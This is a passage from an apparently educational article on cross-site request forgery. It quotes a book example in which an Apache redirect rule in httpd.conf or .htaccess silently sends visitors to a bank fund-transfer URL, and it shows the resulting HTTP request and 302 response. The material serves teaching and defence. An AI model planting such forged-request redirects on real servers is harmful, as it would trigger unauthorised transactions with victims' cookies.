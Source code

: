 This attack can also force a user to follow a redirection, by inserting it on the `httpd.conf` or `.htaccess` file on their web server, like this examples taken from “[XSS Attacks: Cross Site Scripting Exploits and Defense](https://www.amazon.com/XSS-Attacks-Scripting-Exploits-Defense/dp/1597491543)” (2007) book:

```http request
Redirect 302 /a.jpg https://somebank.com/transferfunds.asp?amnt=1000000&acct=123456
```

It would produce a request as the following one:

```http request
GET /a.jpg HTTP/1.0
Host: ha.ckers.org
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.3) Gecko/20070309 Firefox/2.0.0.3
Accept: image/png,*/*;q=0.5
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://somebank.com/board.asp?id=692381
```

And the following server response:

```http request
HTTP/1.1 302 Found
Date: Fri, 23 Mar 2007 18:22:07 GMT
Server: Apache
Location: https://somebank.com/transferfunds.asp?amnt=1000000&acct=123456
Content-Length: 251
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title></head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://somebank.com/transferfunds.asp?amnt=1000000&amp;acct=123456">here</a>.</p>
</body></html>
```

In this example, whenever the web browser performs the redirection, it will follow back to the informed location with the *HTTP Cookies* intact, but the referring *URL* may not change to the redirection page, what makes it even worse, because the user may not easily detect on referring \*URL\*s.

Who could imagine a single line could cause so much trouble, right? So, please remember: internet security is never too much, so there is always something new to learn and to apply.

## CSRF and/or XSS attacks

The *Cross-Site Scripting* (XSS) and the *Cross-Site Request Forgery* (CSRF) attacks share some things in common, but they are not the same. Also, they can be used and implemented together.
